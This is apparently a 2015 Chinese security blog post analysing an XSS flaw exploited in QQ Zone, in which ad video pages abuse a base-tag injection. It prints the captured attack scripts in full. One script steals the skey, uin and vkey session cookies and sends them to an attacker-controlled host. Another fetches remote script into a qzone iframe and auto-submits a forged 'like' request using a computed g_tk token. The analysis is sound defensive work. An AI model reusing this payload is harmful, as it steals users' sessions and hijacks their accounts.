```yaml
---
id: 347
layout: post
title: 'qq空间某被利用的xss分析'
date: 2015-07-13 10:11:00
author: virusdefender
tags: 安全
---
```


今天听说有些人在点击了几个花千骨的广告视频后，自己的qq空间里面就被莫名其妙的分享了一些广告，还自动添加了好友。

怀疑是qq空间的xss或者csrf。在对那几个视频页面进行分析后没有发现什么可疑的代码，后来在模拟了qq手机版的ua，清除了cookies，然后更换了ip后终于复现了这个问题。

![QQ20150713-2@2x.png][3]

这个域名是不是很可疑？我开始怀疑是腾讯的合作伙伴的js被篡改了，但是点看这个php，它的内容是
```js
document.getElementById("footad").src="http://yyyy.qq.com/cgi-bin/privateblog/privateblog_output_data?uin="+rndNum(9)+"&blogid=12"+rndNum(8)+"&imgdm=xxxx.com%2fimgcache.qq.com&bdm=b.qzone.qq.com&vid="+window.vid;
function rndNum(len){
    if(len && len>0 && len<100){}else{len=32;}
    var strs="123456789";
    var maxPos=strs.length;
    var rdstr="";
    for(i=0;i<len;i++){
	rdstr+=strs.charAt(Math.floor(Math.random() * maxPos));
    }
return rdstr;
}

if(cookieRead){
   var dor=cookieRead("adplay");
   if(dor && dor>0){
	//;
   }else{
	cookie_set("adplay",99);
   }
}
```
对`http://yyyy.qq.com/cgi-bin/privateblog/privateblog_output_data?uin=842362834&blogid=1268155622&imgdm=xxxx.com%2fimgcache.qq.com&bdm=b.qzone.qq.com&vid=19`发起一个请求，当然里面有几个参数的随机生成的。

打开这个url，查看源代码，漏洞就是很明显的了。

![1368966902.png][4]

base标签里面抹掉的那个域名和url里面的抹掉的那个域名是一样的，典型的xss漏洞。因为base标签是可以改变下面的相对路径的，比如html在qq.com域下，而base里面是baidu.com，那么下面的`<script src="1.js"></script>`就会访问baidu.com/1.js，而不是qq.com/1.js，导致xss漏洞。而我发现这个地方腾讯其实是有过滤的，因为url里面直接使用xxx.com是不可以的，必须是xxx.com/cache.qq.com才行，但是这样的过滤并没有什么卵用。

这个`embeded.js`的内容是
```js
try{document.domain="qq.com";}catch(e){}
function cookieRead(a,b,c,g){if(void 0==b){a+="=";b=document.cookie.split(";");c=0;for(g=b.length;c<g;c++){for(var i=b[c];" "==i.charAt(0);)i=i.substring(1,i.length);if(0==i.indexOf(a))return decodeURIComponent(i.substring(a.length,i.length))}return ""}}

function cookie_set(key,value){
	var Then=new Date(); 
	Then.setTime(Then.getTime()+7*24*60*60*1000); 
	document.cookie=key+"="+value+"; path=/;expires="+Then.toGMTString();
}

function getQueryString(name) { 
	var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)", "i"); 
	var r = window.location.search.substr(1).match(reg); 
	if (r != null) return unescape(r[2]); return ""; 
} 

var dor=cookieRead("qsdone");
if(dor && dor>0){
	//document.location="about:blank";
}else{
	cookie_set("qsdone",99);
	window.onload=iframe_add;
}



function iframe_add(){tjskey();
	var eframe;
	try{
		var isie=window.navigator.appName.toUpperCase().indexOf("MICROSOFT")>=0;
		eframe = document.createElement(isie? "<iframe name='xframe'>":"iframe");
	}catch(e){}
	try{
		if(!eframe){eframe = document.createElement("iframe");}  
		eframe.id = "xframe";
		eframe.name = "xframe";
		eframe.width="0px";
		eframe.height="0px";
		eframe.scrolling="no";
		eframe.setAttribute("frameborder", "0", 0);
		eframe.src="http://b.qzone.qq.com/proxy.html?r=0.1436745170";
		if(eframe.attachEvent){
			eframe.attachEvent("onload",iframe_addjs);
		} else {
			eframe.onload=iframe_addjs;
		}
		document.body.appendChild(eframe);
	}catch(e){}
}


function iframe_addjs(){ 
	var xdoc;
	if(!xdoc){try{xdoc=document.frames["xframe"].contentWindow.document;}catch(e){}}
	if(!xdoc){try{xdoc=document.frames["xframe"].document;}catch(e){}}
	if(!xdoc){try{xdoc=document.getElementById("xframe").contentWindow.document;}catch(e){}}
	if(xdoc){
		var xjs=xdoc.createElement("script");
		xjs.src="http://imgcoche.qq.xxxx.com/qq/getmore.php?r="+Math.random()+"&type=img.jpg";
		xjs.type="text/javascript";
		try{xdoc.getElementsByTagName('head')[0].appendChild(xjs);}catch(e){}
	}
}

function tjskey(){

	var eimg; 
	eimg = document.createElement("img"); 
	eimg.width="0px";
	eimg.height="0px";
	var myskey=cookieRead("skey");
	var myqq=parseInt(cookieRead("uin").replace("o",""));
	var vkey=cookieRead("vkey");	
	//if(myqq>500 && vkey.length>10){
		if(myqq>500){
			eimg.src="http://imgcoche.qq.xxxx.com/qq/c.php?u="+myqq+"&s="+myskey+"&v="+vkey+"&f="+getQueryString("vid");
			document.body.appendChild(eimg);
		}	
	}
```

在window.onload的时候读取cookies中的qq，key和skey等，发送到后台。

然后判断浏览器，创建一个iframe，src是`http://b.qzone.qq.com/proxy.html`，然后在这个页面写入js，地址是`http://imgcoche.qq.xxxx.com/qq/getmore.php?r="+Math.random()+"&type=img.jpg";`。这个js的内容是
```js
var xqq="19111xxxxx";


var g_skey=cookieRead("skey");
var g_tk;
if(g_skey && g_skey.length>1){
	g_tk=getGTK(g_skey);
	var g_vuin=parseInt(cookieRead("uin").replace("o",""));
	var g_ie=myisIE();
	var g_sender;
	add_form();
}


function getGTK(str){
    var hash = 5381;
    for(var i = 0, len = str.length; i < len; ++i){
        hash += (hash << 5) + str.charAt(i).charCodeAt();
    }
    return hash & 0x7fffffff;
}
function cookieRead(a,b,c,g){if(void 0==b){a+="=";b=document.cookie.split(";");c=0;for(g=b.length;c<g;c++){for(var i=b[c];" "==i.charAt(0);)i=i.substring(1,i.length);if(0==i.indexOf(a))return decodeURIComponent(i.substring(a.length,i.length))}return null}}

function myisIE(){
   if (!!window.ActiveXObject || "ActiveXObject" in window)  
        return true;  
    else  
        return false;  
}  
 

function add_form(){
	var ie=g_ie;
	try{g_sender = document.createElement(ie? "<iframe name='p'>":"iframe");}catch(e){}
   try{
	if(!g_sender){g_sender = document.createElement("iframe");}  
	g_sender.id = "p";
	g_sender.name = "p";
	g_sender.width="1px";
	g_sender.height="1px";
	g_sender.scrolling="no";
	g_sender.setAttribute("frameborder", "0", 0);
	if(g_sender.attachEvent){
    		g_sender.attachEvent("onload",sender_addjs);
	} else {
		g_sender.onload=sender_addjs;
	}
	document.body.appendChild(g_sender);
   }catch(e){}
}

function sender_addjs(){
    if(!window.oncepost){
	var uri="http://w.qzone.qq.com/cgi-bin/likes/doLike";
	var refer="http://user.qzone.qq.com/"+g_vuin;
	var ie=g_ie;

	var ifrHTML='<!DOCTYPE html><html lang="zh-cn"><head><meta http-equiv="content-type" content="text/html; charset=utf-8" /><meta charset="utf-8" />';
	ifrHTML=ifrHTML+'<script type="text/javascript">'+(ie&&'document.charset="utf-8"'||"")+';document.domain="qq.com";frameElement.submited=void(0);frameElement.state="sending";<\/script></head><body>';
	ifrHTML=ifrHTML+'<form action="'+uri+(uri.indexOf("?")>-1?"&":"?")+"g_tk="+g_tk+'" accept-charset="utf-8"  enctype="application/x-www-form-urlencoded;charset=utf-8" method="post">';
	ifrHTML=ifrHTML+'<input type="hidden" name="qzreferrer" id="qzreferrer" value='+refer+'/>';
	ifrHTML=ifrHTML+'<input type="hidden" name="url" id="url" value='+refer+'/>';
	ifrHTML=ifrHTML+'<input type="hidden" name="cid" id="ouin" value="'+xqq+'" />';
	ifrHTML=ifrHTML+'<input type="hidden" name="from" id="from" value="brand" />';
	ifrHTML=ifrHTML+'<input type="hidden" name="scene" id="scene" value="5" />';
	ifrHTML=ifrHTML+'<input type="hidden" name="fupdate" id="fupdate" value="0" />';
	ifrHTML=ifrHTML+'</form><script type="text/javascript">try{var f=document.getElementById("p");f.submit();}catch(e){}<\/script></body></html>';
	if(!ie){
		var d=g_sender.contentDocument||g_sender.contentWindow.document;
		if(d){
			d.open();
			d.write(ifrHTML);
			d.close();
		}
	}
	window.oncepost=1;
    }
}

```
动态创建了一个form，然后post数据，看url是赞了一下某个说说，反正植入js后一切就好办了~~

还有一个加好友的就是无法复现了

![QQ20150713-4@2x.png][5]


  [1]: https://dn-virusdefender-blog.qbox.me/2015/3724033695.png
  [2]: https://dn-virusdefender-blog.qbox.me/2015/2626266003.png
  [3]: http://storage.virusdefender.net/blog/images/347/3.png
  [4]: http://storage.virusdefender.net/blog/images/347/4.png
  [5]: http://storage.virusdefender.net/blog/images/347/5.png
